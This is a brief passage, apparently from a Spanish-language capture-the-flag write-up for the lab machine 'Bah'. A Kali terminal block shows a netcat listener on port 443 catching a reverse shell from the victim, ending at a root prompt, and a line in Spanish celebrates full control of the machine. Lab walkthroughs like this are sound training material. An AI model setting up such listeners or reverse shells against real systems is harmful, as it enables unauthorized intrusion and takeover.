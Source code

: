 ```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Bah]
└─# nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.1.107] from (UNKNOWN) [192.168.1.110] 33830
root@bah:/#
```

¡Enhorabuena! Estamos como **`root`** en la máquina víctima, eso significa que tenemos el **`control total`** de esta. ¡Qué fácil!
